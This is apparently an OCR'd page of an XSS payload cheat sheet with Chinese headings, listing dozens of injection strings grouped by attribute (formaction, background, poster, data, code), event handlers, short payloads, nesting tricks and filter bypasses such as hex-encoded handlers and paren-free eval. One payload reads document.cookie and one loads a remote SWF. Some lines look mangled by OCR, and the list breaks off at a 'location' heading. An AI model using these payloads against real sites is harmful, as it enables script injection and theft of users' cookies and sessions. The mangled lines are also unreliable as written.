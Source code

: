 ```
```
“formaction”属性
```
    <isindexformaction="javascript:alert(1)"      type=image>
    <input type="image" formaction=JaVaScript:alert(0)>
    <form><button formaction=javascript&colon;alert(1)>CLICKME
```
“background”属性
```
    <table background=javascript:alert(1)></table> // Works on Opera 10.5      and IE6
```
“posters” 属性
```
    <video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5
```

“data”属性
```
    <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
    <object/data=//goo.gl/nlX0P?
```
“code”属性

    <applet code="javascript:confirm(document.cookie);"> // Firefox Only
    <embed  code="http://businessinfo.co.uk/labs/xss/xss.swf"      allowscriptaccess=always>
事件处理

    <svg/onload=prompt(1);>
    <marquee/onstart=confirm(2)>/
    <body onload=prompt(1);>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <video><source onerror="javascript:alert(1)">
短payload

    <q/oncut=open()>
    <q/oncut=alert(1)> //      Useful in-case of payload restrictions.
嵌套欺骗

    <marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
    <body  language=vbsonload=alert-1 // Works with IE8
    <command onmouseover="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x6    9\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command>      // Works with IE8
圆括号被过滤

    <a onmouseover="javascript:window.onerror=alert;throw 1>
    <img src=x onerror="javascript:window.onerror=alert;throw 1">
    <body/onload=javascript:window.onerror=eval;throw&#039;=alert\x281\x29&#039;;
Expression 属性

    <img style="xss:expression(alert(0))"> // Works upto IE7.
    <div style="color:rgb(&#039;&#039;x:expression(alert(1))"></div>      // Works upto IE7.
    <style>#test{x:expression(alert(/XSS/))}</style>      // Works upto IE7
“location”属性
